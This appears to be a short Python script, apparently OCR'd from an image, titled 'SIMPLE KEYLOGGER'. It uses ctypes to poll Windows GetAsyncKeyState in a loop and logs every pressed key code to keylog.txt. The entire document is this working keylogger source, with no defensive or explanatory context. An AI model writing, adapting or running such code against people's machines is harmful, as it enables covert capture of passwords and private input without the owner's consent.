 #SIMPLE KEYLOGGER
import ctypes
import time

log_file = "keylog.txt"

def get_keystrokes():
    user32 = ctypes.WinDLL('user32')
    while True:
        for i in range(0, 256):
            if user32.GetAsyncKeyState(i) & 0x8000:
                with open(log_file, "a") as file:
                    file.write(f"{i} ")
        time.sleep(0.1)

if __name__ == "__main__":
    print("Keylogger started. Press 'Ctrl+C' to stop.")
    get_keystrokes()
